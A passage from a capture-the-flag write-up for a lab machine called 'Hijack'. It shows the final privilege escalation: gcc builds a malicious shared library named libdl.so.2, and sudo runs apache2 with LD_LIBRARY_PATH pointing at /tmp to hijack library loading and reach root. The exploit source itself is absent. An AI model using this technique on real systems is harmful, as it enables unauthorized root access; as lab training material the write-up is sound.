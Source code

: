 I compiled it by using `gcc`. It's important to name the output file after one of the dynamic libraries from `ldd` output. I chose the last one, `libdl.so.2`, and compiled it with the `-shared` flag to create a new dynamic library. Finally, I was able to run `apache2` with the specified `LD_LIBRARY_PATH`:
```bash
rick@Hijack:/tmp$ gcc -o /tmp/libdl.so.2 -shared -fPIC exploit.c
rick@Hijack:/tmp$ sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2
```

At this point, I gained root privileges and was able to retrieve the root flag:
```bash
root@Hijack:/root# cd /root
root@Hijack:/root# cat root.txt 

██╗░░██╗██╗░░░░░██╗░█████╗░░█████╗░██╗░░██╗
██║░░██║██║░░░░░██║██╔══██╗██╔══██╗██║░██╔╝
███████║██║░░░░░██║███████║██║░░╚═╝█████═╝░
██╔══██║██║██╗░░██║██╔══██║██║░░██╗██╔═██╗░
██║░░██║██║╚█████╔╝██║░░██║╚█████╔╝██║░╚██╗
╚═╝░░╚═╝╚═╝░╚════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝

THM{[removed]}
```

solved! :)